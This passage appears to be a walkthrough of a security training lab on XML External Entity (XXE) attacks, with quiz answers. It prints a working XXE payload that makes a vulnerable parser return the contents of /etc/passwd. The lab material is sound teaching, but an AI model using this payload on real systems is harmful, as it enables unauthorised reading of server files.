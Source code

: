 ----------------------------------------

1. How do you define a new ELEMENT?

```
!ELEMENT
```

2. <p>How do you define a ROOT element?<br /></p>

```
!DOCTYPE
```

3. <p>How do you define a new ENTITY?<br /></p>

```
!ENTITY
```

----------------------------------------

### TASK 15. [Severity 4] XML External Entity - XXE Payload

<p>Now we'll see some XXE payload and see how they are working.<br /><br />1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.<br /><br /><code style="font-size:14px">&lt;!DOCTYPE replace [&lt;!ENTITY name "feast"&gt; ]&gt;<br /> &lt;userInfo&gt;<br />  &lt;firstName&gt;falcon&lt;/firstName&gt;<br />  &lt;lastName&gt;&amp;name;&lt;/lastName&gt;<br /> &lt;/userInfo&gt;<br /></code><br /></p><p><br />As we can see we are defining a <code style="font-size:14px">ENTITY</code> called <code style="font-size:14px">name</code> and assigning it a value <code style="font-size:14px">feast</code>. Later we are using that ENTITY in our code.<br /></p><p>2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword<br /><br /><code style="font-size:14px">&lt;?xml version="1.0"?&gt;<br />&lt;!DOCTYPE root [&lt;!ENTITY read SYSTEM 'file:///etc/passwd'&gt;]&gt;<br />&lt;root&gt;&amp;read;&lt;/root&gt;</code><br /><br />Here again, we are defining an ENTITY with the name <code style="font-size:14px">read</code> but the difference is that we are setting it value to `SYSTEM` and path of the file.<br /><br />If we use this payload then a website vulnerable to XXE(normally) would display the content of the file <code style="font-size:14px">/etc/passwd</code>.</p><p>In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.</p>

----------------------------------------

### QUESTIONS:

----------------------------------------

1. Try the payload mentioned in description on the website.

```
OK
```

----------------------------------------

### TASK 16. [Severity 4] XML External Entity - Exploiting

